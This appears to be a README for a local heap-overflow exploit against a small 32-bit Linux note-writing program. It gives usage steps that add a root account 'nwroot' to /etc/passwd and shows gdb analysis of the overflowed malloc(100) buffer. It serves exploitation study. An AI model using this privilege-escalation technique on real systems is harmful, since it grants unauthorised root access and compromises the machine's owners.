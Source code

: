 # How to use
1. Exploit only works on 32bit Linux Systems
2. chmod +x writenotes && chmod +x exploit
3. ./exploit ./writenotes writenotes
4. cat /etc/passwd
   - You'll see a new root user has been created call
   nwroot. Login:
     - su nwroot
     - password
5. You now got root as a local user by exploiting the heap

# How we noticed the overflow
1. root:~# ./writenotes "testnotes"
   - [DEBUG] buffer   @ 0x8a3c160: 'testnotes'
   - [DEBUG] datafile @ 0x8a3c1d0: '/var/notes'
   - [DEBUG] file descriptor is 3
   - Note has been saved.

2. root:~# gdb ./writenotes
   - (gdb) disas main
   - (gdb) 0x08048854 <+23>:	push   $0x64
           0x08048856 <+25>:	call   0x80486e2 <ec_malloc>

- this means the variable that holds the string to send to /var/notes
is allocated 0x64 bytes == malloc(100)
